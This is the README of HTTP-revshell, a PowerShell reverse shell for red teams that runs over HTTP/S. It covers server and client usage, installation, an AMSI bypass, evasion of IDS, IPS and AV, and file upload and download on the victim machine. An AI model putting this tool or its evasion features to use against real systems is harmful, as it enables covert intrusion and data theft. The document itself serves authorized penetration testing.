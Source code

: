 # Powershell HTTP/S Reverse Shell

## Description
HTTP-revshell is a tool focused on redteam exercises and pentesters. This tool provides a reverse connection through the http/s protocol. HTTP-revshell makes use of a covert channel to gain control over the victim machine through web requests and thus evade solutions such as IDS, IPS and AV.

<p align="center"><img width=400 alt="HTTP-revshell" src="https://raw.githubusercontent.com/3v4Si0N/HTTP-revshell/master/images/logo.png"></p>

## Help server.py (unisession server)
Server usage:
```
usage: server.py [-h] [--ssl] [--autocomplete] host port

Process some integers.

positional arguments:
  host            Listen Host
  port            Listen Port

optional arguments:
  -h, --help      show this help message and exit
  --ssl           Send traffic over ssl
  --autocomplete  Autocomplete powershell functions
```

## Help Invoke-WebRev.ps1 (client)
Client usage:
```
Import-Module .\Invoke-WebRev.ps1
Invoke-WebRev -ip IP -port PORT [-ssl]
```

## Installation
```shell
git clone https://github.com/3v4Si0N/HTTP-revshell.git
cd HTTP-revshell/
pip3 install -r requirements.txt
```

## Quick start server-multisession.py (multisession server)

```
This server allows multiple connection of clients.
There is a menu with three basic commands: sessions, interact and exit
     - sessions --> show currently active sessions
     - interact --> interacts with a session (Example: interact <session_id>)
     - exit --> close the application
```
**IMPORTANT**: To change the session press *CTRL+d* to exit the current session without closing it.

## Features
 - SSL
 - Proxy Aware
 - Upload Function
 - Download Function
 - Error Control
 - AMSI bypass
 - Multiple sessions [only server-multisession.py]
 - Autocomplete PowerShell functions (optional) [only server.py]
    
## Extra functions usage
### Upload
 - upload /src/path/file C:\dest\path\file
### Download
 - download C:\src\path\file /dst/path/file

## Credits
 - [JoelGMSec] for his awesome Revshell-Generator.ps1. Twitter: [@JoelGMSec]
 - [dev2null] for report the first bug. Twitter: [@dev2null]

## Disclaimer & License
This script is licensed under LGPLv3+. Direct link to [License](https://raw.githubusercontent.com/3v4Si0N/HTTP-revshell/master/LICENSE).

HTTP-revshell should be used for authorized penetration testing and/or nonprofit educational purposes only. 
Any misuse of this software will not be the responsibility of the author or of any other collaborator. 
Use it at your own servers and/or with the server owner's permission.
